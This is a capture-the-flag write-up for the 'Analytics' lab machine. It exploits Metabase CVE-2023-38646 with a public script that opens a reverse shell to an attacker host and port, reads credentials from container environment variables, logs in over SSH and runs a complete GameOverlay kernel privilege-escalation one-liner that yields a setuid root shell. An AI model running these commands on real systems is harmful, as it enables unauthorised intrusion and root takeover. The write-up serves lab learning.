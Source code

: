 ```yaml
---
title: Analytics
published: true
layout: post
---
```


<br />

---------------
Analytics is an easy difficulty Linux machine with exposed HTTP and SSH services. Enumeration of the website reveals a Metabase instance, which is vulnerable to Pre-Authentication Remote Code Execution ([CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646)), which is leveraged to gain a foothold inside a Docker container. Enumerating the Docker container we see that the environment variables set contain credentials that can be used to SSH into the host. Post-exploitation enumeration reveals that the kernel version that is running on the host is vulnerable to GameOverlay, which is leveraged to obtain root privileges.

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/nPaZz_MxZG0?si=NQM9t_0XH6Z5GIgb" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.11.233 -p- -T4 --min-rate 5000 -oN all_ports.txt --open -n -Pn
```

![](/assets/Analytics/1.png)
<br />
<br />
<br />

There are **2 open ports**:
+ **22/tcp**
+ **80/tcp**

<br />
Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.11.233 -p 22,80 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A
```

![](/assets/Analytics/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **22/tcp OpenSSH 8.9p1**
+ **80/tcp nginx 1.18.0**

<br />

We can also see a **hostname**, so we will add it to our ***/etc/hosts* file**:

```bash
echo "10.10.11.233 analytical.htb" | sudo tee --append /etc/hosts
```

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.11.233 -p 22,80 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn
```

<br />

The scan reports nothing.

<br />

------

<br />
### Foothold

This machine's foothold is very **easy and straightforward**, however we will have to make **assumptions**.

<br />

Initial enumeration of the website revealed a login panel, which is located under a subdomain, ***data.analytical.htb***, we will add it to our /etc/hosts file:
```bash
echo "10.10.11.233 data.analytical.htb" | sudo tee --append /etc/hosts
```

<br />

By visiting the login website, we will discover a Metabase instance:

![](/assets/Analytics/3.png)
<br />
<br />
<br />

After trying some NoSQL injection, I **searched for an exploit** for this software, and find one that works:
```bash
searchsploit Metabase
```
![](/assets/Analytics/4.png)
<br />
<br />
<br />

This exploit leverages **CVE-2023-38646**, which essentially require  two HTTP requests to be exploited:
+ /api/session/properties
+ /api/setup/validate

<br />

The first one allows us to get a **setup token**, and the second one sends  a **payload in JSON format that executes commands**.

<br />

We just have to execute it to get a **webshell**:
```bash
python3 51797.py -u http://data.analytical.htb --lhost 10.10.16.10 --lport 4444 --sport 55555
```
![](/assets/Analytics/5.png)
<br />
<br />
<br />

However, after some enumeration, we can see that **we are in a container**, this is due to the existence of a ***/.dockerenv* file** and the **hostname**:

```bash
hostname
ls -la /.dockerenv
```
![](/assets/Analytics/6.png)
<br />
<br />
<br />

Following with our enumeration, we can discover some **credentials** in the **environmental variables**:
```bash
printenv
```
![](/assets/Analytics/7.png)
<br />
<br />
<br />

With this in mind an no *metalytics* user in this container, we can try to connect through **SSH** and **print the user flag**:
```bash
ssh metalytics@analytical.htb
```
![](/assets/Analytics/8.png)
<br />
<br />
<br />

------

<br />
### Privilege Escalation

The privilege escalation is simple, but we have to take a deep look into **version numbers**.

<br />

Enumerating Linux we discovered the kernel version:

```bash
uname -r
```

![](/assets/Analytics/9.png)
<br />
<br />
<br />

Searching for this version number revealed an [exploit](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629) created by g1vi called **Game Over(lay)** that leverages **CVE-2023-2640** and **CVE-2023-32629**:

![](/assets/Analytics/10.png)

This exploit is actually a **one-liner** that we can execute to **gain root privileges** and **print the flag**:
```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```
![](/assets/Analytics/11.png)
<br />
<br />
<br />
